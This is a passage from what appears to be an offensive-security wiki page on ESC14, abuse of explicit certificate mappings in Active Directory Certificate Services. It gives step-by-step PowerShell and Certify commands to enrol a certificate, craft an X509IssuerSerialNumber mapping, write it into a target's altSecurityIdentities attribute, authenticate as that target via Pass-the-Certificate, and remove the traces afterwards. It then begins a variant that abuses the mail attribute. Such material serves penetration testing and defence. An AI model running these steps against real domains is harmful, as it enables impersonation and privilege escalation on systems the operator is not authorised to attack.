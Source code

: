 For PKINIT authentication, no additional requirements are necessary. For Schannel authentication, the `CertificateMappingMethods` key must be set to `0x8` (default value).

::: tabs

=== UNIX-like

// TODO


=== Windows

From Windows systems, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template.

```powershell
Certify.exe request /ca:domain\ca /template:Machine /machine
```

Then, the `certutil` utility permits to merge the PFX and dump the serial number and the issuer DN from it.

```powershell
certutil -MergePFX .\cert-a.pem .\cert-a.pfx
certutil -Dump -v .\cert-a.pfx
```

Following this, the [Get-X509IssuerSerialNumberFormat](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1) script (PowerShell) allows to craft a X509IssuerSerialNumber mapping string well formated.

```powershell
Get-X509IssuerSerialNumberFormat -SerialNumber $SERIAL_NUMBER -IssuerDistinguishedName $ISSUER_DN
```

Finally, the crafted string can be added to `altSecurityIdentities` target's attribute with the [Add-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Add-AltSecIDMapping.ps1) script (PowerShell).

```powershell
Add-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
Get-AltSecIDMapping -DistinguishedName $TARGET_DN
```

The certificate requested at the begining can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

The certificate mapping written can be cleaned with [Remove-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Remove-AltSecIDMapping.ps1) (PowerShell).

```powershell
Remove-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
```

:::


#### (ESC14 B) Target with X509RFC822 (email)

The target has an explicit weak mapping of type `X509RFC822`. The attacker can modify the `mail` attribute of the victim so that it matches the `X509RFC822` mapping of the target. It is then possible to enroll on the certificate model with the victim, and use the certificate obtained to authenticate as the target.
